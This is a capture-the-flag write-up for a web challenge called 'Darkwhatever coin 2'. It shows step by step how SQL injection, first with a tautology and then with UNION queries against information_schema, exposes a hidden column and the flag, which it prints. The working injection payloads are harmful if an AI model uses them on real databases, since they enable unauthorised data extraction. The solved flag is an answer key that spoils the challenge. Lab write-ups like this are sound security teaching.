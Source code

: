 # Darkwhatever coin 2
http://chal.firebird.sh:32001/q2/

1. Try some input: team1' or 1=1 or teamname=team2'
![alt text](https://github.com/div1121/OIL_Test/blob/main/Darkwhatever_coin_2/img1.png)

- After the input, we can see the table
- From the page source code, the flag is moved to neighbour, probably we need to the columns in this table or the flag is in another

2. Attempt for SQL injection for finding all tables in the database (UNION can be a good choice)
- Input: team1' UNION SELECT COLUMN_NAME, table_name FROM information_schema.columns UNION SELECT teamname, balance from balances where 1='1
![alt text](https://github.com/div1121/OIL_Test/blob/main/Darkwhatever_coin_2/img2.png)

- After the input, we can see balances table also has the bonus column

3. Attempt to see the bonus column in the balances table
- Input: team1' UNION SELECT teamname, bonus FROM balances UNION SELECT teamname, balance from balances where 1='1
![alt text](https://github.com/div1121/OIL_Test/blob/main/Darkwhatever_coin_2/img3.png)

Flag obtained:
flag{un10n_bas3d_sql1_attack_1s_f0n}
